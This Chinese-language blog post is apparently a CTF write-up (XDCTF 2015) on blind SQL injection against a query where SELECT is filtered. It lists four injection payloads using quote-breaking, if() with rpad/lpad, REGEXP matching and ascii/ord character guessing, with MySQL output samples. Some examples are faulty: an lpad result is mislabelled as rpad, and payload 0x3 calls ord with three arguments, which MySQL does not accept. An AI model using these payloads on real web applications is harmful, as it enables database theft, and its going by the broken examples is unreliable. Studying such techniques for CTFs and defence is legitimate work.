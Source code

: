 title: 不使用select情况下的各种盲注
date: 2015-10-05 11:17:10
tags:
- web
- sqli
---
> 这次的XDCTF, 关于web1 400, 学到了很多666的姿势, 开一篇新博文, 记录这些姿势..

<!--more-->

原本我以为, 在select被过滤的情况下, 如果不能bypass, 就没法注入... 而这次看了writeup后, 不同的队, 姿势都不同, 大开眼界....

这次题目的语句我猜测是 `select pic from table where ID="$i";`
$i 则是可控点..

```
payload 0x0:
    $i = 1" && username="%
构成以下语句:
select pic from talbe where ID="1" && username="%"
这个payload可以用来猜测是否有该字段, 接下来的盲注这语句仍然可用

payload 0x1:
    $i = 111" OR if(rpad(username,1,1)="a",1,0)#  或者 111" OR if(rpad(username,1,1)=char(101),1,0)# 
构成以下语句:
select pic from table where ID="111" OR if(rpad(username,1,1)="a",1,0)#"
在知道该表有username字段后, 可以通过这语句进行盲注
```
上面的语句用到了两个函数, 一个 `if()` && `rpad()`
if函数在我之前的博客中写过, 就不再多说..主要讲讲rpad()
rpad还有个相同功能的行数lpad, 一个是right 一个是 left , 具体的用法已实例来讲解:
```
mysql> select name from table;
+----------+
| name     |
+----------+
| Hcamael  |
+----------+
1 row in set (0.00 sec)
mysql> select rpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select rpad(name,10,1) from table;
+---------------------+
| rpad(name,10,1)     |
+---------------------+
| Hcamael111          |
+---------------------+
1 row in set (0.00 sec)
mysql> select lpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select lpad(name,10,1) from table;
+---------------------+
| lpad(name,10,1)     |
+---------------------+
| 111Hcamael          |
+---------------------+
1 row in set (0.00 sec)

```
这两个函数有三个参数, 第一个是字段名, 第二个是显示几位, 第三个是当位数不足时, 以啥补充..

```
payload 0x2:
    $i = 111" OR username REGEXP "^[a-z]
select pic from table where ID ="111" OR username REGEXP "^[a-z]"
正则匹配法注入, 真是涨姿势了, 第一次见

payload 0x3:
    $i = 111" OR (ascii(ord(username,1,1)))=97# 或者 111" OR (ord(username,1,1))='a'#
select pic from table where ID="111" OR (ascii(ord(username,1,1)))=97#"
这种方法我以前盲注的时候写过, 可是当没有select的时候, 我却自然的以为这些不行用了...
```




